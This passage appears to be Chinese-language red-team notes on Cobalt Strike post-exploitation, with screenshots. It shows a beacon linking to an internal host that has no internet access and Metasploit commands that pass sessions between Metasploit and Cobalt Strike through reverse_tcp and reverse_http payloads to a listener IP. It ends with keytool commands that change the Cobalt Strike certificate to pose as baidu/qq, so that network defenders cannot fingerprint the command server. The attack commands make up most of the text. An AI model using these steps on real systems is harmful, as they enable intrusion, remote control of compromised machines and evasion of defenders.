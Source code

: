 情况只适用于内网的机子，需要先捅下A机子上线cs，然后B机子不出网，但是A机子与B是同一局域网。

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615383404470-511a8e04-2af2-405a-b4fe-152b42e686ff.png#align=left&display=inline&height=415&originHeight=554&originWidth=479&size=17900&status=done&style=none&width=359)<br />目标机子的内网ip 192.168.201.161

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615383513676-bcf45cfc-eb46-4718-ba6f-3b287874ad52.png#align=left&display=inline&height=367&originHeight=489&originWidth=614&size=135166&status=done&style=none&width=461)<br />在目标机子点击了cs的正向连接马后，利用内网同一局域网会话的机子执行命令，cs成功上线<br />**beacon> connect 192.168.201.161 4444**<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615385172716-58101d7f-6d39-420a-95a5-6d03d6889d34.png#align=left&display=inline&height=166&originHeight=331&originWidth=979&size=16887&status=done&style=none&width=489.5)<br />**beacon>unlink [ip address] [session PID] 下线机子**
<a name="7EXj3"></a>
### 内网不出网机子上线cs之SMB
自己的csdn博客<br />[https://blog.csdn.net/weixin_41598660/article/details/109196489](https://blog.csdn.net/weixin_41598660/article/details/109196489)
<a name="I2PXc"></a>
## 派生shell
<a name="TluVc"></a>
### Cs派生msf shell 
Host和port都是msf的ip和端口<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380227329-bbbe2cf4-79a0-4f3e-8da6-8bc6c885f61f.png#align=left&display=inline&height=222&originHeight=445&originWidth=724&size=91617&status=done&style=none&width=362)<br /> <br />msf5 > use exploit/multi/handler<br />msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp<br />payload => windows/x64/meterpreter/reverse_tcp<br />msf5 exploit(multi/handler) > set lhost 0.0.0.0<br />lhost => 0.0.0.0<br />msf5 exploit(multi/handler) > set lport 4434<br />lport => 4434<br /> 
<a name="pRHZJ"></a>
### Msf派生cs shell
![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380251530-9b0324a3-1d4d-482f-be0e-a82a0436ba43.png#align=left&display=inline&height=214&originHeight=427&originWidth=722&size=86009&status=done&style=none&width=361)<br />msf启动如下<br />use exploit/windows/local/payload_inject <br />set payload windows/meterpreter/reverse_http<br />set lhost 192.168.10.144<br />set lport 5051<br />set session 1<br />exploit<br /> 
<a name="NgVls"></a>
## 异常解决
如果出现下面的报错，选择监听的时候选https作为反弹shell的监听就成功了<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611380267024-2d508732-8850-487d-961e-e147456c6599.png#align=left&display=inline&height=176&originHeight=352&originWidth=1031&size=425185&status=done&style=none&width=515.5)

<a name="tsmfZ"></a>
## CS修改流量特征
使用linux系统中的curl命令，可以很直观的看到cobalt strike的证书特征，所以要修改他。<br />curl https://ip:端口 -k -v<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614867399698-c3b76d86-71b1-48a7-8cec-1ccc864f0441.png#align=left&display=inline&height=251&originHeight=335&originWidth=748&size=161601&status=done&style=none&width=561)<br />两条命令修改特征，先把原来的cobalt strike.store删除
```html
keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias baidu.com -dname "CN=qq.com, OU=, O=service, L=shenzhen, ST=shenzhen, C=CN"
```

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614872062705-915cbdfa-24d6-42e7-9f89-693ca60ccf93.png#align=left&display=inline&height=194&originHeight=259&originWidth=1185&size=26522&status=done&style=none&width=889)
```html
keytool -importkeystore -srckeystore cobaltstrike.store -destkeystore cobaltstrike.store -deststoretype pkcs12
```

![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614872081402-cbdc4afe-95b9-44b0-8348-b2c66ec33b82.png#align=left&display=inline&height=58&originHeight=77&originWidth=1175&size=4958&status=done&style=none&width=881)<br />查看证书内容。<br />keytool -list -v -keystore ./cobaltstrike.store<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614872186877-60c8db06-cb31-4f81-b196-e08343e69883.png#align=left&display=inline&height=311&originHeight=622&originWidth=881&size=34468&status=done&style=none&width=440.5)<br />启动cs后 curl一下查看，已经没有了cobaltstrike的特征了<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614872274938-11ff2eb7-b3e1-4856-947c-3afebcfdb247.png#align=left&display=inline&height=315&originHeight=420&originWidth=909&size=30997&status=done&style=none&width=682)
